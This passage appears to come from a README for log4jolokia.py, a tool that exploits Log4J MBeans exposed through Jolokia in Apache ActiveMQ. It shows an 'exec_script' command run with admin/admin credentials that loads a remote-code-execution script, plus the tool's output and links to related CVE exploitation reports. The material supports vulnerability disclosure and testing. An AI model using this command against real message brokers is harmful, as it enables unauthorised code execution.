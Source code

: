 Example - Execute Script:
```
$ python3 log4jolokia.py exec_script http://127.0.0.1:8161/console/jolokia/ -sf rce.js -l javascript -u admin -p admin -H 'Origin: http://localhost'
[.] Looking for "org.apache.logging.log4j2" mbeans in http://127.0.0.1:8161/console/jolokia/list
[+] Found Log4J Mbean org.apache.logging.log4j2:type=561b61ed

[!!!] WARNING: You are about to execute a javascript script from the "rce.js" file. 
Keep in mind that this script will be triggered multiple times.

If you agree with the above enter "yes" to continue: yes
[.] Reading javascript script from rce.js
[.] Using setConfigText to load the Log4J XML configuration
[+] Successfully called setConfigText()
[+] The script should have been successfully executed
```

**Note:** This mode loades the respective script, but has no way of knowing if once the script is loaded it is successfully executed or silently fails.

### Additional Resources:

Manual exploitation exemple of the "read_file" mode:
- [CVE-2022-41678: Dangerous MBeans Accessible via Jolokia API in Apache ActiveMQ](https://github.com/mbadanoiu/CVE-2022-41678)
- [CVE-2023-50780 - Initial Report for Apache ActiveMQ Artemis - PDF](https://github.com/mbadanoiu/CVE-2023-50780/blob/main/Apache%20Artemis%20-%20CVE-2023-50780%20-%20Initial%20Report.pdf)

Manual exploitation exemple of the "write_file" mode resulting in RCE:
- [Write arbitrary JSP in Apache ActiveMQ Classic - PDF](https://github.com/mbadanoiu/CVE-2022-41678/blob/main/Apache%20ActiveMQ%20-%20CVE-2022-41678.pdf)
- [Write WAR and restart Jetty in Apache ActiveMQ Artemis - PDF](https://github.com/mbadanoiu/CVE-2023-50780/blob/main/Apache%20Artemis%20-%20CVE-2023-50780%20-%20WAR%20%2B%20Restart%20Vector.pdf)

Manual exploitation exemple of the "exec_jar" mode: 
- [CVE-2023-50780 - JAR + jvmtiAgentLoad in Apache ActiveMQ Artemis - PDF](https://github.com/mbadanoiu/CVE-2023-50780/blob/main/Apache%20Artemis%20-%20CVE-2023-50780%20-%20JAR%20%2B%20jvmtiAgentLoad.pdf)

Manual exploitation exemple of the "exec_script" mode: 
- [MAL-011: Log4J Misconfiguration Allows Malicious JavaScript in Red Hat AMQ](https://github.com/mbadanoiu/MAL-011)
